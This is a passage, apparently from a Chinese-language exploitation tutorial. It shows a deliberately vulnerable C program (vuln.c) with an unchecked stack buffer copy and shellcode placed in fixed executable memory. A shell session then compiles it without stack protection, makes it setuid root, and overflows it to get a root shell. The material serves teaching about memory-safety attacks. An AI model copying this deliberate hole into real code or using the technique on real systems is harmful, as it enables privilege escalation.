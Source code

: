 ```

/*
 * This function is vulnerable to a buffer overflow. Our goal is to
 * overwrite the return address with 0x41414141 which is the addresses
 * that we mmap() and store our shellcode in.
 */
int vuln(char *s)
{
        char buf[32];
        int i;

        for (i = 0; i < strlen(s); i++) {
                buf[i] = *s;
                s++;
        }
}

int main(int argc, char **argv)
{
        if (argc < 2)
        {
                printf("Please supply a string\n");
                exit(0);
        }
        int i;
        char *mem = mmap((void *)(0x41414141 & ~4095),
                                 4096,
                                 PROT_READ|PROT_WRITE|PROT_EXEC,
                                 MAP_PRIVATE|MAP_ANONYMOUS|MAP_FIXED,
                                -1,
                                 0);

        memcpy((char *)(mem + 0x141), (void *)&shellcode, 46);
        vuln(argv[1]);
        exit(0);

}
```

#### 利用 vuln.c 的示例

让我们看看如何利用`vuln.c`：

```
$ gcc -fno-stack-protector vuln.c -o vuln
$ sudo chmod u+s vuln
$ ./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# whoami
root
#
```
